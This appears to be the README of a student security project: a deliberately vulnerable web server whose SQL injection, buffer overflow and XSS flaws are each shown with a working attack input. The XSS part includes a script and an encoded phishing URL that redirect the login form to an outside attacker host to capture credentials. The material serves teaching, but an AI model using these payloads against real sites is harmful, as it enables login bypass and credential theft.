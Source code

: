 # Computer system security - Project 2  : the 3-flaws webserver
**Group #** : 5

**Members** :
- Laurent MINY
- Etienne DE JAMBLINNE DE MEUX

The whole project was made and tested on a Debian Jessie 8 x64 with Xampp installed and Firefox ESR 45.7.0

## Injection SQL
**User way** - The user enter the 'admin' username and enter his password 'thepassword' to login

**Hacker way** - The injection can be done by entering any password and the following username :
```
admin' or '1'='1' #
```

## Buffer Overflow
**User way** - The user enter the 'admin' username and enter his password 'thepassword' to login

**Hacker way** - The buffer overflow is done by rewriting the variable 'int pwd_matches' with garbage. And everything different over value 0 means "Password valid". So we can enter the username 'admin' (guessed) and the following as password (29 * 'h') :
```
hhhhhhhhhhhhhhhhhhhhhhhhhhhhh
```

**Remarks** :
- the file 'check-login' and 'buff3r-ov3rfl0w' must have the correct rights
- the file 'buff3r-ov3rfl0w' has to be compile for your system (more info in the source file 'buff3r-ov3rfl0w.c'). The one supplied is compiled on Debian Jessie 8 x64.

## XSS

The XSS (Cross-site scripting) is done by entering as username the following javascript (and any password) :

```javascript
<script>
document.addEventListener("DOMContentLoaded", function(event) { // To wait for DOM to be ready
  document.forms["form-login"].action="http://www.attacker-website.com"; // To send to login form to the website of an attacker.
});
</script>
```

If the attacker website is lminy.alwaysdata.net, with a little bit of social engineering, he could send an email to the admin my saying that there is a problem on [this page](http://localhost/homework2/?username=%3Cscript%3Edocument.addEventListener%28%22DOMContentLoaded%22%2Cfunction%28a%29{document.forms[%22form-login%22].action%3D%22http%3A%2F%2Flminy.alwaysdata.net%22}%29%3B%3C%2Fscript%3E&password=pwd). The user is tricked to enter again his login and password and the evil is done!

The attacker can then check its apache logs to know the username & password of the admin :

[logo]: ./lminy.alwaysdata.net.log.png?raw=true "Apache logs"
